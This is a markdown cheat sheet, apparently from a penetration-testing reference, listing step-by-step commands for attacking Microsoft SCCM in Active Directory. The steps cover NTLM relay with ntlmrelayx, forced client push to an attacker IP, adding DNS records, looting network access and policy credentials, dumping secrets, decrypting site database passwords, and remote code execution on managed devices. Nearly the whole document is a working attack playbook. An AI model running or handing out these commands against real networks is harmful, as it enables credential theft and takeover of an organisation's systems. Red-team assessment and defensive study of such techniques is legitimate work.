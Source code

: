 ```yaml
---
title: "SCCM"
description: "SCCM techniques and commands for Active Directory security assessment."
---
```

# SCCM
## recon
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
  - `sccmhunter.py show -all`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `nxc smb <sccm_server> -u <user> -p <password> -d <domain> --shares`
 
## Creds-1 No credentials *NAA credentials || User + Pass*{: .highlight}
- Extract from pxe See no creds *PXE*{: .highlight}

##  Elevate-1:Relay on site systems Simple user *Admin on Site system*{: .highlight}
- coerce sccm site server
  - `ntlmrelayx.py -tf <site_systems> -smb2support`

## Elevate-2:Force client push Simple user *Admin*{: .highlight}
- `ntlmrelayx.py -t <sccm_server> -smb2support -socks # listen connection`
  - `SharpSCCM.exe invoke client-push -mp <sccm_server>.<domain> -sc <site_code> -t <attacker_ip> # Launch client push install`
    - `proxychains smbexec.py -no-pass <domain>/<socks_user>@<sccm_server>`
      - cleanup

## Elevate-3:Automatic client push Simple user *Relay ntlm*{: .highlight}
- Create DNS A record for non existing computer x
  - `dnstool.py -u '<domain>\<user>' -p <pass>  -r <newcomputer>.<domain> -a add -t A -d <attacker_ip> <dc_ip>`
    -  Enroll new computer x in AD  then remove host SPN from the machine account
      - `setspn -D host/<newcomputer> <newcomputer> setspn -D host/<newcomputer>.<domain> <newcomputer>`
        - wait 5m for client push
          - `ntlmrelayx.py -tf <no_signing_target> -smb2support -socks`
            - cleanup

## CRED-6 Loot creds *User + Pass*{: .highlight}
- SCCM SMB service (445/TCP) on a DP
  - `cmloot.py <domain>/<user>:<password>@<sccm_dp> -cmlootinventory sccmfiles.txt`
- SCCM HTTP service (80/TCP or 443/TCP) on a DP
  - `SCCMSecrets.py policies -mp http://<management_point> -u '<machine_account>$' -p '<machine_password>' -cn '<client_name>'`
  - `SCCMSecrets.py files -dp http://<distribution_point> -u '<user>' -p '<password>'`
  - `sccm-http-looter -server <ip_dp>`

## Takeover-1:relay to mssql db Simple user *SCCM ADMIN*{: .highlight}
- SCCM MSSQL != SSCM server
  - `sccmhunter.py mssql -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug -tu <target_user> -sc <site_code> -stacked`
    - `ntlmrelayx.py -smb2support -ts -t mssql://<sccm_mssql> -q "<query>"`
      - coerce sccm_mssql -> attacker
        - `sccmhunter.py admin -u <target_user>@<domain> -p '<password>' -ip <sccm_ip>` 

## Takeover-2:relay to mssql server Simple user *Admin MSSQL*{: .highlight}
- SCCM MSSQL != SSCM server
  - `ntlmrelayx.py -t <sccm_mssql> -smb2support -socks`
    - coerce sccm_server 
      - `proxychains smbexec.py -no-pass <domain>/'<sccm_server>$'@<sccm_ip>`

## Creds-2:Policy Request Credentials Simple user *User + Pass*{: .highlight}
- add computer
  - `sccmwtf.py newcomputer newcomputer.<domain> <target> '<domain>\<computer_added>$' '<computer_pass>'`
    - get NetworkAccessUsername and NetworkAccessPassword
      - `policysecretunobfuscate.py`
        - delete device created after sccmadmin
  - `SharpSCCM.exe get secrets -r newcomputer -u <computer_added>$ -p <computer_pass>"`
    - cleanup

## Creds-3Creds-4 Computer Admin user *NAA credentials*{: .highlight}
- `dploot.py sccm -u <admin> -p '<password>' <sccm_target>`
- `sccmhunter.py dpapi  -u <admin> -p '<password>' -target <sccm_target> -debug`
- `SharpSCCM.exe local secrets -m disk`
- `SharpSCCM.exe local secrets -m wmi`

## Creds-5 SCCM admin *Site DB credentials*{: .highlight}
- `secretsdump.py <domain>/<admin>:'<pass>'@<sccm_target>`
  - `mssqlclient.py -windows-auth -hashes '<sccm_target_hashNT>' '<domain>/<sccm_target>$'@<sccm_mssql>`
    - `use CM_<site_code>;`
      - `SELECT * FROM SC_UserAccount;`
        - `sccmdecryptpoc.exe <cyphered_value>`

## EXEC-1/2 SCCM admin *lat*{: .highlight}
- `SharpSCCM.exe exec -p <binary> -d <device_name> -sms <SMS_PROVIDER> -sc <SITECODE> --no-banner`
- `sccmhunter.py admin -u <user>@<domain> -p '<password>' -ip <sccm_ip>`
    - `get_device <hostname>`
      - `interact <device_id>`
        - `script xploit.ps1`

## Cleanup
- `SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"`
  - `SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>`

## Post exploit
- as sccm admin
  - `SCCMHound.exe --server <server> --sitecode <sitecode>` *Users sessions*{: .highlight}